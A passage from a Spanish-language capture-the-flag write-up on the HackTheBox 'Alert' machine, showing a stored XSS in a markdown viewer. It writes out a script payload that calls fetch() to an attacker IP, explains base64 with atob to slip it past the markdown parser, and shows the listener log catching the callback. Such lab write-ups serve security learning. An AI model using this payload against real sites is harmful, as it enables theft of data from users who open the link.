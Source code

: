 En el botón de la esquina derecha inferior, nos da un enlace para compartir este documento malicioso: `http://alert.htb/visualizer.php?link_share=67ebd35a23aab0.34082396.md`.

Vale... recordemos que tenemos una sección de contacto para enviarle un mensaje a alguien, ¿y si le enviamos el enlace?

Vamos a generar otro markdown pero con este contenido:

```md
# uwu owo</h1><script>fetch("http://10.10.16.x:8000/test")</script>
```

Lo que va a hacer es enviarle una petición HTTP a un servidor que dejaremos en escucha en nuestro equipo en el puerto 8000/tcp. Al subir esto y enviar el enlace en el formulario anteriormente mencionado, veremos que de a primeras esto no funciona porque

![xd](/assets/writeups/alert/4.png)

El procesador markdown nos está convirtiendo esto a un hipervínculo.

Pero esto podemos solucionarlo simplemente codificando la entrada en base64 y decodificarla con `atob` en el parámetro de la función `fetch`. Al hacerlo ahora si veremos algo en nuestro servidor de alguien más al enviar el enlace al formulario.

![Look this](/assets/writeups/alert/5.png)

```bash
❯ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.44 - - [01/Apr/2025 08:06:59] code 404, message File not found
10.10.11.44 - - [01/Apr/2025 08:06:59] "GET /test HTTP/1.1" 404 -
```

Tendremos una dificultad al explotar esto, y es que las cookies tienen la propiedad `HttpOnly` en true. Por lo que tendremos que abusar de XSS haciendo que el usuario que sea que esté leyendo el mensaje haga cosas por nosotros mediante JavaScript, como ver recursos que nosotros no podemos ver.

Vamos a tener que programar tanto un script como para hacer cosas y un servidor que reciba los datos que el script logre filtrar haciendo sus cosas. Yo tengo una herramienta propia programada en Go para este tipo de situaciones, pero tu deberás programarte algo o buscar alguna solución por sitios como GitHub. 
